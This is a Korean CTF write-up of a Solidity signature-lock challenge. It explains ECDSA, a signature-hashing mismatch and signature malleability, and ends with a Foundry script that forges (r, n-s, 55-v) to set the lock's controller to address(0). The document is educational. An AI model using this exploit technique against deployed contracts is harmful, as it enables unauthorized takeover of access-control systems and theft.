

## 문제
### 지문
SlockDotIt’s new product, ECLocker, integrates IoT gate locks with Solidity smart contracts, utilizing Ethereum ECDSA for authorization.
When a valid signature is sent to the lock, the system emits an Open event, unlocking doors for the authorized controller.
SlockDotIt has hired you to assess the security of this product before its launch.
Can you compromise the system in a way that anyone can open the door?
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "openzeppelin-contracts-08/access/Ownable.sol";

// SlockDotIt ECLocker factory
contract Impersonator is Ownable {
    uint256 public lockCounter;
    ECLocker[] public lockers;

    event NewLock(address indexed lockAddress, uint256 lockId, uint256 timestamp, bytes signature);

    constructor(uint256 _lockCounter) {
        lockCounter = _lockCounter;
    }

    function deployNewLock(bytes memory signature) public onlyOwner {
        // Deploy a new lock
        ECLocker newLock = new ECLocker(++lockCounter, signature);
        lockers.push(newLock);
        emit NewLock(address(newLock), lockCounter, block.timestamp, signature);
    }
}

contract ECLocker {
    uint256 public immutable lockId;
    bytes32 public immutable msgHash;
    address public controller;
    mapping(bytes32 => bool) public usedSignatures;

    event LockInitializated(address indexed initialController, uint256 timestamp);
    event Open(address indexed opener, uint256 timestamp);
    event ControllerChanged(address indexed newController, uint256 timestamp);

    error InvalidController();
    error SignatureAlreadyUsed();

    /// @notice Initializes the contract the lock
    /// @param _lockId uinique lock id set by SlockDotIt's factory
    /// @param _signature the signature of the initial controller
    constructor(uint256 _lockId, bytes memory _signature) {
        // Set lockId
        lockId = _lockId;

        // Compute msgHash
        bytes32 _msgHash;
        assembly {
            mstore(0x00, "\x19Ethereum Signed Message:\n32") // 28 bytes
            mstore(0x1C, _lockId) // 32 bytes
            _msgHash := keccak256(0x00, 0x3c) //28 + 32 = 60 bytes
        }
        msgHash = _msgHash;

        // Recover the initial controller from the signature
        address initialController = address(1);
        assembly {
            let ptr := mload(0x40)
            mstore(ptr, _msgHash) // 32 bytes
            mstore(add(ptr, 32), mload(add(_signature, 0x60))) // 32 byte v
            mstore(add(ptr, 64), mload(add(_signature, 0x20))) // 32 bytes r
            mstore(add(ptr, 96), mload(add(_signature, 0x40))) // 32 bytes s
            pop(
                staticcall(
                    gas(), // Amount of gas left for the transaction.
                    initialController, // Address of `ecrecover`.
                    ptr, // Start of input.
                    0x80, // Size of input.
                    0x00, // Start of output.
                    0x20 // Size of output.
                )
            )
            if iszero(returndatasize()) {
                mstore(0x00, 0x8baa579f) // `InvalidSignature()`.
                revert(0x1c, 0x04)
            }
            initialController := mload(0x00)
            mstore(0x40, add(ptr, 128))
        }

        // Invalidate signature
        usedSignatures[keccak256(_signature)] = true;

        // Set the controller
        controller = initialController;

        // emit LockInitializated
        emit LockInitializated(initialController, block.timestamp);
    }

    /// @notice Opens the lock
    /// @dev Emits Open event
    /// @param v the recovery id
    /// @param r the r value of the signature
    /// @param s the s value of the signature
    function open(uint8 v, bytes32 r, bytes32 s) external {
        address add = _isValidSignature(v, r, s);
        emit Open(add, block.timestamp);
    }

    /// @notice Changes the controller of the lock
    /// @dev Updates the controller storage variable
    /// @dev Emits ControllerChanged event
    /// @param v the recovery id
    /// @param r the r value of the signature
    /// @param s the s value of the signature
    /// @param newController the new controller address
    function changeController(uint8 v, bytes32 r, bytes32 s, address newController) external {
        _isValidSignature(v, r, s);
        controller = newController;
        emit ControllerChanged(newController, block.timestamp);
    }

    function _isValidSignature(uint8 v, bytes32 r, bytes32 s) internal returns (address) {
        address _address = ecrecover(msgHash, v, r, s);
        require (_address == controller, InvalidController());

        bytes32 signatureHash = keccak256(abi.encode([uint256(r), uint256(s), uint256(v)]));
        require (!usedSignatures[signatureHash], SignatureAlreadyUsed());

        usedSignatures[signatureHash] = true;

        return _address;
    }
}
```
## 배경지식

---

문제를 풀기 전에 ECDSA를 간단히 보자. ECDSA는 Elliptic Curve Digital Signature Algorithm의 줄임말로, 타원곡선 디지털 서명 알고리즘이다.
ECDSA는 보통 다음 세 가지를 보장하기 위해 쓰인다.
- 인증 : 이 서명이 특정 개인키 소유자에게서 나왔는지 확인
- 무결성 : 메시지가 바뀌지 않았는지 확인
- 부인 방지 : 개인키 없이는 같은 서명을 만들기 어렵게 함
ECDSA는 암호화 알고리즘이 아니라, 특정 개인키 소유자가 어떤 메시지에 서명했다는 사실을 증명하기 위해 사용된다.

---

ECDSA는 보통 소수체 위의 타원곡선을 쓴다.
소수 $p$에 대해 유한체를 $\mathbb{F}_p = \{0,1,2,\dots,p-1\}$와 같이 쓰고, 곡선 위의 좌표 계산은 $\bmod p$로 진행한다.
일반적인 타원곡선은 $E: y^2 \equiv x^3 + ax + b \pmod p$와 같이 쓴다.
또한 곡선 위의 점들은 $(x,y)\in\mathbb{F}_p^2$를 만족해야 하고, 여기에 항등원인 무한원점 $O$를 추가한다.

---

타원곡선 위의 점들은 덧셈 연산을 가진다.
점 $P=(x_1,y_1), \quad Q=(x_2,y_2)$에 대해 $P+Q = (x_3,y_3)$는 다음과 같은 규칙에 따라 계산된다.
먼저 P와 Q가 다를 때의 기울기는 다음과 같이 구한다.
$$
\lambda \equiv \frac{y_2-y_1}{x_2-x_1} \pmod p
$$
이때 나눗셈은 모듈러 역원 곱셈으로 진행한다.
$$
\frac{a}{b} \equiv a\cdot b^{-1}\pmod p
$$
좌표는 다음과 같이 계산된다.
$$
x_3 \equiv \lambda^2 - x_1 - x_2 \pmod p
$$
$$
y_3 \equiv \lambda(x_1-x_3)-y_1 \pmod p
$$

---

이제 P와 Q가 같을 때, 즉 $2P=P+P$인 경우를 보자.
기울기는 다음과 같다.
$$
\lambda \equiv \frac{3x_1^2+a}{2y_1} \pmod p
$$
각 좌표는 위와 비슷하게 계산된다.
$$
x_3 \equiv \lambda^2 - 2x_1 \pmod p
$$
$$
y_3 \equiv \lambda(x_1-x_3)-y_1 \pmod p
$$

---

덧셈 연산에 이어 곱셈 연산을 보자.
ECDSA에서는 점의 덧셈을 반복해서 스칼라 곱을 계산한다.
$$
kG = \underbrace{G+G+\cdots+G}_{k\text{번}}
$$
여기서
- $G$ : 기준점
- $k$ : 정수
- $kG$ : 타원곡선 위의 다른 점
이다.
이 연산은 계산하기는 쉽지만, 반대로 
$$
Q = dG
$$
가 주어졌을 때 d를 찾는 것은 매우 어렵다고 알려져 있다.
이 어려움이 타원곡선 이산로그 문제, ECDLP다.
ECDSA는 ECDLP에 기반한다.
ECDSA를 쓰려면 먼저 곡선의 파라미터가 정해져 있어야 한다.
보통 다음 값들이 공개된다.
$$
(p,a,b,G,n,h)
$$
각 의미는 다음과 같다.
- $p$ : 유한체의 크기를 결정하는 소수
- $a, b$ : 타원곡선의 계수
- $G$ : 기준점
- $n$ : $G$의 부분군의 위수
- $h$ : cofactor
기준점 G의 부분군의 위수가 $n$이라는 것은,
$$
nG = \mathcal{O}
$$
이고 그보다 작은 양의 정수 $t$에 대해
$$
tG = \mathcal{O}
$$
가 되지 않는다는 뜻이다.
ECDSA에서는 보통 $n$이 큰 소수이다.
개인키 $d$는 정수 하나를 사용한다.
$$
d \in \{1,2,\dots,n-1\}
$$
공개키는 $Q=dG$로 잡고, 여기서 $Q$는 타원곡선 위의 점이다.
개인키 $d$로 공개키 $Q$를 계산하는 것은 쉽지만 공개키 $Q$와 기준점 $G$만 보고 $d$를 찾는 것은 어렵다.

---

서명할 메시지를 $m$이라고 하자.
ECDSA는 메시지 전체를 직접 서명하지 않고, 먼저 해시한다.
$$
e = H(m)
$$
그다음 이 해시값을 정수로 해석하고, 보통 이를 z로 둔다.
$$
z = \operatorname{int}(H(m))
$$
단, 해시 길이가 $n$의 비트 길이보다 길면 왼쪽부터 필요한 만큼 잘라 쓴다.
개인키 $d$로 메시지 $m$에 서명한다 하자.
무작위 정수 $k$를 고른다.
$$
k \in \{1,2,\dots,n-1\}
$$
이 $k$는 노출되거나 재사용하면 안 된다.
$$
R = kG
$$
$R$을 다음과 같이 잡자.
$$
R = (x_R, y_R)
$$
$$
r \equiv x_R \pmod n
$$
만약 $r=0$이라면 다른 $k$를 골라야 한다.
주의할 점은 $x_R$은 $\mathbb{F}_p$의 원소지만, $r$을 만들 때는 $x_R$를 정수로 해석한 뒤 $\bmod n$을 취한다.
$s \equiv k^{-1}(z + rd) \pmod n$으로 계산하고, 만약 $s = 0$이면 다른 $k$를 골라 다시 진행한다.
최종 서명은 $(r,s)$이다.

---

검증자는 메시지 $m$, 서명 $(r,s)$, 공개키 $Q$를 가지고, 개인키 $d$를 모른다.
먼저 $1\le r, s \le n-1$ 인지 확인하고 아니면 거절한다.
이후 $z = \operatorname{int}(H(m))$와 $w \equiv s^{-1} \pmod n$를 계산한다.
$u_1 \equiv zw \pmod n$, $u_2 \equiv rw \pmod n$, $X = u_1G + u_2Q$라고 하자.
$X = (x_X, y_X)$이다.
서명이 유효하려면 $r \equiv x_X \pmod n$이어야 한다.
이 검증이 성립하는 이유는 식으로 확인할 수 있다.
서명 과정에서 $s \equiv k^{-1}(z + rd) \pmod n$였다.
양변에 $k$를 곱하자. $ks \equiv z + rd \pmod n$
양변에 $s^{-1}$를 곱하자. $k \equiv s^{-1}(z+rd) \pmod n$
검증 과정에서 $w = s^{-1}$라고 잡았으므로 $k \equiv w(z+rd) \pmod n$이고, 전개하면
$k \equiv wz + wrd \pmod n$
검증자는 $u_1 = zw$, $u_2 = rw$로 계산한다.
따라서 $k \equiv u_1 + u_2d \pmod n$다.
이제 양변에 $G$를 곱하면 $kG = (u_1 + u_2d)G$, 분배하면 $kG = u_1G + u_2dG$다.
공개키가 $Q = dG$이므로 $kG = u_1G + u_2Q$다.
즉 검증자가 계산한 $X = u_1G + u_2Q$는 원래 서명자가 계산했던 $R = kG$와 같다.
따라서 $X = R$이다.
결론적으로, 서명자가 만든 $r = x_R \bmod n$와 검증자가 계산한 $x_X \bmod n$이 같아야 한다.

---

ECDSA에서 가장 위험한 부분은 $k$다.
서명식은 $s\equiv k^{-1}(z + rd) \pmod n$이고,
이를 개인키 $d$에 대해 정리하면 $d \equiv r^{-1}(sk - z) \pmod n$다.
즉, 공격자가 $k$를 알면 개인키 $d$를 바로 구할 수 있다.
두 메시지 $m_1, m_2$에 대해 같은 $k$를 써서 서명했다고 하자.
각 해시를 $z_1, z_2$라 하고, 서명을 $(r,s_1), (r,s_2)$라 하자.
같은 $k$를 쓰면 $R=kG$가 나오므로 같은 $r$이 나온다.
서명식은 각각 $s_1 \equiv k^{-1}(z_1 + rd) \pmod n$, $s_2 \equiv k^{-1}(z_2 + rd) \pmod n$다.
두 식을 빼면 $s_1 - s_2 \equiv k^{-1}(z_1-z_2) \pmod n$가 된다.
따라서 $k \equiv \frac{z_1-z_2}{s_1-s_2} \pmod n$
즉, $k \equiv (z_1-z_2)(s_1-s_2)^{-1} \pmod n$이다.
$k$를 구하면 개인키는 $d \equiv r^{-1}(s_1k-z_1) \pmod n$로 복구할 수 있다.

---

위의 설명대로라면 서명은 $(r, s)$로 검증할 수 있다. 그러면 Ethereum 서명에서 나오는 $v$는 뭘까?
Ethereum에서는 `ecrecover(z, v, r, s)`와 같은 함수를 쓴다. `ecrecover`는 서명이 유효하면 서명자의 주소를, 실패하면 `address(0)`을 반환하는 함수이다.
이더리움 주소는 공개키에서 만들어진다. 공개키를 $Q=(x_Q,y_Q)$라 하면, 대략 다음과 같이 주소가 정해진다.
$$
hash = keccak256(x_Q || y_Q)
$$
이 `hash`의 마지막 20바이트가 주소가 된다. 따라서 `ecrecover`가 서명으로부터 공개키 $Q$를 복구할 수 있다면, 그 공개키에 대응되는 주소도 구할 수 있다.
문제는 서명에 들어있는 $r$이 원래 서명 과정에서 만든 점 $R=kG$의 $x$좌표에서 나온다는 점이다. 타원곡선에서는 같은 $x$값을 가진 점이 보통 $(x, y)$, $(x, -y)$ 두 개가 있다. 즉 $r$만으로는 둘 중 어느 점이 실제 $R$인지 알 수 없다.
이때 어느 쪽 점을 써야 하는지 알려주는 recovery id가 $v$이다. 이 문제에서는 일반적인 Ethereum 서명처럼 $v$가 27 또는 28로 들어온다.
## 문제 코드 분석
이제 문제 코드를 하나씩 보자.

---

먼저 `Impersonator`는 factory 역할을 하는 컨트랙트다. owner만 `deployNewLock`을 호출할 수 있고, 이 함수는 `ECLocker`를 새로 배포한다.
```solidity
function deployNewLock(bytes memory signature) public onlyOwner {
    ECLocker newLock = new ECLocker(++lockCounter, signature);
    lockers.push(newLock);
    emit NewLock(address(newLock), lockCounter, block.timestamp, signature);
}
```
`NewLock` 이벤트에는 `signature`가 그대로 찍힌다. 즉, 공격자는 새 lock이 만들어질 때 사용된 초기 controller의 서명을 이벤트 로그에서 얻을 수 있다.

---

`ECLocker`의 생성자를 보면 먼저 lock마다 고정된 메시지 해시를 만든다.
```solidity
assembly {
    mstore(0x00, "\x19Ethereum Signed Message:\n32")
    mstore(0x1C, _lockId)
    _msgHash := keccak256(0x00, 0x3c)
}
```
즉 서명 대상 메시지는 `lockId`이다. 이 값은 `msgHash`에 저장되고, 이후 `open`이나 `changeController`에서도 계속 같은 `msgHash`를 사용한다.
그 다음 생성자로 받은 `_signature`에서 `v, r, s`를 꺼내 `ecrecover`를 호출한다.
```solidity
mstore(ptr, _msgHash)
mstore(add(ptr, 32), mload(add(_signature, 0x60)))
mstore(add(ptr, 64), mload(add(_signature, 0x20)))
mstore(add(ptr, 96), mload(add(_signature, 0x40)))
```
`ecrecover` precompile의 입력은 `(hash, v, r, s)` 순서이므로, `_signature`는 일반적인 `(r, s, v)` 형태로 들어온다고 볼 수 있다. 복구된 주소는 `initialController`가 되고, 이 주소가 lock의 controller로 설정된다.

---

이제 서명 재사용 방지를 보자.
```solidity
usedSignatures[keccak256(_signature)] = true;
```
생성자에서는 `_signature` 전체 bytes를 해시해서 사용 처리한다. 그런데 실제 검증 함수에서는 다른 방식으로 서명을 해시한다.
```solidity
bytes32 signatureHash = keccak256(abi.encode([uint256(r), uint256(s), uint256(v)]));
require (!usedSignatures[signatureHash], SignatureAlreadyUsed());
```
즉 constructor에서는 `keccak256(_signature)`을 쓰고, `_isValidSignature`에서는 `keccak256(abi.encode([r, s, v]))`를 쓴다. 같은 서명이라도 해시되는 bytes 형태가 다르기 때문에, 생성자에서 사용 처리한 서명이 검증 함수에서는 사용된 것으로 인식되지 않는다.
이벤트에서 얻은 초기 서명을 그대로 재사용하는 것도 가능하다. 다만 여기서는 ECDSA 서명 자체의 malleability도 사용할 수 있다.

---

`open`과 `changeController`는 둘 다 `_isValidSignature`만 통과하면 실행된다.
```solidity
function changeController(uint8 v, bytes32 r, bytes32 s, address newController) external {
    _isValidSignature(v, r, s);
    controller = newController;
    emit ControllerChanged(newController, block.timestamp);
}
```
그리고 `_isValidSignature`는 `ecrecover(msgHash, v, r, s)`의 결과가 현재 `controller`와 같은지만 확인한다.
```solidity
address _address = ecrecover(msgHash, v, r, s);
require (_address == controller, InvalidController());
```
여기서 `s` 값이 lower half인지 확인하지 않고, OpenZeppelin의 `ECDSA.recover` 같은 안전한 래퍼도 쓰지 않는다. 따라서 같은 서명자 주소로 복구되는 다른 형태의 서명을 만들 수 있다.
결국 공격 방향은 다음과 같다.
1. `NewLock` 이벤트에서 초기 서명 `(r, s, v)`를 얻는다.
2. 원본 서명을 그대로 쓰거나, malleability를 이용해 다른 유효 서명을 만든다.
3. 그 서명으로 `changeController`를 통과해 `controller`를 `address(0)`으로 바꾼다.
4. 이후에는 잘못된 서명을 넣어 `ecrecover`가 `address(0)`을 반환하게 만들면 누구나 `open`을 호출할 수 있다.
## 풀이
이제 이벤트에서 얻은 $(r,s,v)$가 있다고 하자. 위에서 봤듯이 원본 서명을 그대로 재사용하는 것도 가능하지만, 여기서는 ECDSA malleability를 이용해서 다른 유효 서명을 만들어보자.
서명 검증에서 계산되는 점은 결국 $R$의 $x$좌표와 관련된다. 그런데 $R$과 $-R$은 $y$좌표만 반대이고 $x$좌표는 같다. 따라서 $R$ 대신 $-R$을 만들 수 있으면 같은 $r$로도 검증을 통과할 수 있다.
기존 검증에서
$$
R = s^{-1}zG + s^{-1}rQ
$$
였다면, $s$를 $-s$로 바꿨을 때는 다음과 같이 된다.
$$
(-s)^{-1}zG + (-s)^{-1}rQ = -s^{-1}(zG+rQ) = -R
$$
즉 $s$를 $-s$로 대체하면 $-R$을 만들 수 있고, $R$과 $-R$은 같은 $x$좌표를 가지므로 같은 $r$ 검증을 통과한다.
$-s$는 음수 그대로 넣는 것이 아니라 $\bmod n$ 위에서 표현해야 한다.
$$
-s \equiv n - s \pmod n
$$
따라서 새 $s$ 값은 $n-s$가 된다.
이제 $v$도 같이 바꿔야 한다. $v$는 27과 28을 사용하는데, 둘 중 어느 $y$좌표를 가진 $R$을 쓸지 나타내는 값이다. $R$을 $-R$로 바꿨으니 $v$도 반대 값으로 바꿔야 한다.
$v$가 27 또는 28이라면 반대 값은 다음처럼 구할 수 있다.
$$
v' = 55 - v
$$
따라서 $(r,s,v)$에서 $(r,n-s,55-v)$를 사용하면 원본과 다른 서명이지만 같은 controller 주소로 복구된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IECLocker {
    function changeController(uint8 v, bytes32 r, bytes32 s, address newController) external;
}

contract Sol32 is Script {
    uint256 private constant SECP256K1_N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        IECLocker target = IECLocker(0x46887e09d735a4E2081A253cD78c656093183bD2);
        bytes memory signature =
            hex"1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b9178489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff21b";

        uint8 v;
        bytes32 r;
        bytes32 s;

        assembly {
            r := mload(add(signature, 0x20))
            s := mload(add(signature, 0x40))
            v := byte(0, mload(add(signature, 0x60)))
        }

        vm.startBroadcast(privateKey);
        target.changeController(55 - v, r, bytes32(SECP256K1_N - uint256(s)), address(0));
        vm.stopBroadcast();
    }
}
```

